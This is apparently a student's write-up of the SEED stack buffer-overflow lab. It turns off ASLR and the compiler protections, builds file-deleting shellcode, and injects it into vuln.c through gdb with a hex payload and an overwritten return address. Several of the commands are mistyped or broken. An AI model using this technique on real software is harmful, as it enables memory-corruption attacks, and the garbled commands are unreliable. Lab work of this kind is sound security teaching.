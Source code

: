 # DELETE DUMMYFILE USING INJECTION CODE

**_Stack frame of vuln.c:_**

![image](https://github.com/user-attachments/assets/47fcfd62-f76e-4b55-b7cf-00cfb3148904)

![image](https://github.com/user-attachments/assets/449c77c3-107f-4ce1-87cc-b20964e8e09c)

**First commands:**
`docker run -it privileged --mount type=bind,source=/home/seed/seclabs,target=/home/seed/seclabs img4lab`: This command is used to launch a Docker container:

- `-it`: Run the container in interactive mode and provide a terminal.

- `--privileged`: Grant root privileges to the container, allowing it to perform privileged tasks.

- `--mount type=bind,source=/home/seed/seclabs,target=/home/seed/seclabs`: Append the /home/seed/seclabs directory on the host to the directory of the same name in the container.

- `img4lab`: Name of the Docker image used.

**Navigate and create files:**

`cd seclabs/Security-labs/Software/buffer-overflow/`: Navigate to the directory containing files related to buffer overflow.

`touch dummyfile`: Create a new file named dummyfile.
Change shell and disable ASLR:

`sudo ln -sf/bin/zsh /bin/sh`: Replace the default shell /bin/sh with /bin/zsh to use the Zsh shell.

`sudo sysctl w kernel.randomize_va_space=0`: Disable the kernel's ASLR (Address Space Layout Randomization) feature. This feature makes it harder to exploit memory vulnerabilities by randomizing memory addresses.

**Compile assembly code:**

`nasm -gf elf file_del.asm`: Compile assembly file file_del.asm into ELF format object file_del.o.

`ldm elf_i386 -o file_del file_del.o`: Link object file_del.o into executable file_del.

**Dissect executable file:**

- `for i in $(objdump -d file_del grep "^" cut -f2); do echo -n 'x'$i; done; echo`: Get the opcode addresses of the instructions in the file_del file and print them in hex.

**Compile a C program:**

`gcc -g vuln.co vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`: Compile the C file vuln.c into an executable file `vuln.out`. Options:

- `-g`: Add debug information.

- `-fno-stack-protector`: Disable stack buffer overflow protection.

- `-z execstack`: Allow code execution on the stack.

- `-mpreferred-stack-boundary=2`: Set the stack limit.

**Use GDB:**

- `gdb -q vuln.out`: Start `GDB` to debug the `vuln.out` file.

![image](https://github.com/user-attachments/assets/1532d5f1-18e6-46c1-b79e-24a9088dbd27)

- Set 2 break points at 0x0804843e and 0x0804846b to see the difference when we run the program

- Run the program with the command r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'\*32+'\xaa\xaa\xaa\xaa')")

<!-- ![image](https://github.com/user-attachments/assets/56b53d60-5b95-44de-8114-54fc6bc84f66) -->

- Run the program again. Now we see that the transmission is correct.

- We see that at break 2, only the first 3 values ​​are the same as the hexstring we put into the program, everything else is different.
- `\x0a` là `\n` trong hexstring

=> So we should change the code again.

![image](https://github.com/user-attachments/assets/f58bfe72-33b4-4dc1-9f01-a0671e94ddc1)

- We change address 0xffffd64c to esp address 0xffffd608, and address 0xffffd62b to \x00 and continue the program
- However, when we check, the dummyfile file is still there.

![image](https://github.com/user-attachments/assets/06c59473-a74b-444f-8e53-4e6f4f75c291)

- Check `file_del`

![image](https://github.com/user-attachments/assets/4174643a-69a5-4181-b4fd-5c810cd11231)

- We see that dummyfile is stored at address 0x0804807a, and the mov instruction $0x804807a, %ebx, so the deletion actually just makes the ebx register no longer point to its address. So we need to reset the dummyfile address in the program to the address of ebx.

![image](https://github.com/user-attachments/assets/aefbd91a-7843-446f-a313-dbdf700e4db4)

- Result :

![image](https://github.com/user-attachments/assets/78850471-ead4-42a9-a31f-8448a73f3690)
